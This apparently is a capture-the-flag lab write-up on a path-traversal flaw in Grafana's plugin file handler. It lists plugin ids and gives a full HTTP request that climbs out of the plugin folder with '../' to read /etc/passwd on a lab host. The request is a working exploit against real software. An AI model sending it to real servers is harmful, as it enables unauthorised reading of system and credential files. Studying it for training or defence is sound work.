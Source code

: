 # IoT Hacking CLUS CTF Flags

The following are the CTF flags for the grafana vulnerability in the IoT device:

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use ../ to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as alertlist, here are some of common plugin ids:
```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```
Send following request to retrieve the **/etc/passwd ** (you can replace the alertlist with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: http://192.168.3.126:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```
